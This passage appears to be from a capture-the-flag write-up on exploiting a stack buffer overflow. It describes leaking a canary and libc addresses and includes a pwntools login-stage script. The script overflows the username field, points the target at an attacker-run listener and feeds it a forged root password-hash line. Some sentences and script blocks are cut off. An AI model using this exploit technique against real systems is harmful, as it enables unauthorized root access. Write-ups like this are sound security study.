 ![bof-when-read-from-file.png](images/bof-when-read-from-file.png)

After a few times reading, I recognized the file might be generated by urandom (option 5 is `urandom` file) so it will have all bytes from null byte to byte `0xff`. So the idea is to leak canary, exe address and libc address by reading much data to concate the buffer with those value, then recover back byte to byte from higher stack address to lower stack address, from saved rip to saved rbp to canary to make the program work normally. Finally, with that leaked address we can get shell.

So we need to get the file first so that we can build our exploit easily. To that, we will try to print just 0x100 because if we read 

<details><summary>Get file script</summary></details>

So if we get the file, how we can use it? We will create a function which takes 3 parameters, one is the byte to be seeked, one is the data and one is the offset (the length from input buffer to the byte we need to recover):

<details><summary>Generate step with specific byte</summary></details>

# 2. Exploit

### Stage 1: Login ###

As the script for getting file, we can reuse the code:

```python
if args.LOCAL:
	t1 = listen(6666)
	ip = b'127.0.0.1\0'
else:
	# ip = <vps ip string> + b'\0'
p.sendlineafter(b'choice: ', b'1')
payload = b'root\0' + b'A'*123 + p64(0) + ip
p.sendafter(b'Username: ', payload.ljust(0xb0, b'A'))
p.sendafter(b'Password: ', b'\0'*8 + b'B'*0x78)

if args.LOCAL:
	t1.sendline(b'root:$6$tet$tXRYc/J5H1lWOJDDUv2c2yKKc5SJcozGLLyPbIenZuqhv/2bIxX81n6z2KAisRDQvRMNJGAEDpCyCRmODZHO1.:0:0:root:/root:/bin/bash')
```
